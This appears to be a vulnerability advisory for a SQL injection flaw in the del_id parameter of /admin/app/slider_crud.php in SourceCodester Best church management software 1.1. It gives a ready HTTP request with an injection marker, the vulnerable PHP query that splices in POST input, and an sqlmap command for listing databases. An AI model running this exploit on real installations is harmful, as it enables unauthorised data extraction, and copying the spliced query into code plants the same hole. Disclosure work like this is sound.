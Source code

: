 # Description
A vulnerability has been found in SourceCodester Best church management software 1.1 and classified as critical. SourceCodester Best church management software 1.1 has a SQL Injection vulnerability in /admin/app/slider_crud.php. Affected is file /admin/app/slider_crud.php,The manipulation of the argument del_id leads to SQL inject. Remote attackers can leverage time-based blind SQL injection to extract data from the database.

# Request：
```
POST /admin/app/slider_crud.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Origin: http://127.0.0.1
Connection: keep-alive
Referer: http://127.0.0.1/index.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Priority: u=0, i

del_id=*
```

# Affect code:
```php
... ...
if (isset($_POST['del_id'])) 
  {
      $stmt = $conn->prepare("UPDATE `slider` SET delete_status='1' where id='".$_POST['del_id']."' ");
      $stmt->execute();
      $_SESSION['delete']="delete";
      header("location:../manage_slider.php" ); 
  }
... ...
```

# Exploit:
`python sqlmap.py -r 2.txt --dbs`
![图片](https://github.com/user-attachments/assets/a4a1f8b1-6ce1-4eef-8828-b7b3067a16fc)
![图片](https://github.com/user-attachments/assets/eb26ff3a-19a4-4f4e-acb1-cf3c936fa840)

